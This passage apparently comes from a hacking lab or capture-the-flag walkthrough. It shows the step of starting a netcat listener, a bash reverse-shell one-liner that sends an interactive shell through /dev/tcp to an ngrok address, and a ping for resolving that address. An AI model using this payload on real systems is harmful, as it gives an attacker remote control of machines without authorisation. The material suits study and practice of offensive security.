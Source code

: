 ![](attachments/20240402121122.png)

Next, i start a netcat listener on the same port

![](attachments/20240402115712.png)

Now the reverse shell payload i will be using is this:

```shell
bash -c 'exec bash -i &>/dev/tcp/NGROK_IP/NGROK_PORT <&1'
```

We already have our ngrok PORT but to obtain the IP we can just ping the TCP ngrok address provided

For example:

```
ping 1.tcp.ngrok.io
```

![](attachments/20240402121018.png)
